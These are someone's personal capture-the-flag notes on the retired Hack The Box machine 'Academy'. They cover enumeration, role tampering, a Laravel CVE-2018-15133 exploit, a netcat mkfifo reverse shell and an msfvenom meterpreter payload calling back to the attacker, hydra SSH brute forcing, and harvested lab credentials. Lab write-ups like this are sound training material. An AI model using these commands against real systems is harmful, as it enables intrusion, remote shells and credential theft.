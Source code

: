 ```yaml
---
tags:
  - Linux
  - HTB
  - Retired
  - laravel
  - logs
creation date: ""
Date Completed: 2024-08-17
IP: 10.129.99.197
URL: https://app.hackthebox.com/machines/Academy
Domain: academy.htb
CVEs: CVE-2018-15133
New Tools: autoreport
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T5 $IP  
```

```
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?

```

### ffuf (Directories/Subdomain/Files)

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt:FUZZ -u $URL/FUZZ
```

![[Pasted image 20240817090700.png]]
```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt:FUZZ -u $URL/FUZZ
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u $URL -H "HOST: FUZZ.academy.htb"
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://academy.htb/config.php?FUZZ=key -fs 0
```

### Nikto (Identify Technology)

```session
nikto -h $URL
```

led me astray...
![[Pasted image 20240817104506.png]]

**What we know so far**

Website running HTB Academy

admin.php, login.php (created a user account hacker:hacked)
![[Pasted image 20240817092214.png]]
Username: egre55
![[Pasted image 20240817101717.png]]
### SQLMAP
nothing...

### BurpSuite
Intercept registration and modify roleid
![[Pasted image 20240817104402.png]]

can now login with those creds on the admin.php

admin.php:
![[Pasted image 20240817104424.png]]
Users so far:
cry0l1t3
mrb3n
egre55

eww
![[Pasted image 20240817104822.png]]

### MySQL

![[Pasted image 20240817104907.png]]

![[Pasted image 20240817105044.png]]


## Foothold

Clues: 
![[Pasted image 20240817112123.png]]![[Pasted image 20240817112141.png]]
I googled so much but finally hit the right combo "laravel api exploit"

PoC: https://github.com/aljavier/exploit_laravel_cve-2018-15133

```session
python3 ./pwn_laravel.py http://dev-staging-01.academy.htb/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= --interactive
```

![[Pasted image 20240817112417.png]]

#### Enumeration
![[Pasted image 20240817113053.png]]

Get a better shell 🐚
```session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.15.64 31337 >/tmp/f
```

then an even better 🐚🐚
```session
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.15.64 LPORT=1337 -f ELF > shell
```

### LinPeas

![[Pasted image 20240817120233.png]]![[Pasted image 20240817120323.png]]

tried getting in to dbs with the new creds... nothing. Time to run hydra and get SSH as a new user

## Lateral Movement

```
hydra -L user -P pass 10.129.99.197 ssh
```

![[Pasted image 20240817123313.png]]

![[Pasted image 20240817120954.png]]

cry0l1t3:mySup3rP4s5w0rd!!
### LinPeas 
![[Pasted image 20240817122042.png]]

mrb3n:mrb3n_Ac@d3my!

Checking for TTY (sudo/su) passwords in audit logs

#TakeAways
adm means you have access to view logs
how to search through logs

```session
aureport --tty | grep -E "su |sudo " | sed -E "s,su|sudo,${C}[1;31m&${C}[0m,g"
grep -RE 'comm="su"|comm="sudo"' /var/log* 2>/dev/null
```

## Lateral Movement

![[Pasted image 20240817122819.png]]

![[Pasted image 20240817122848.png]]
sticky bit... time for GTFObins!

![[Pasted image 20240817122957.png]]

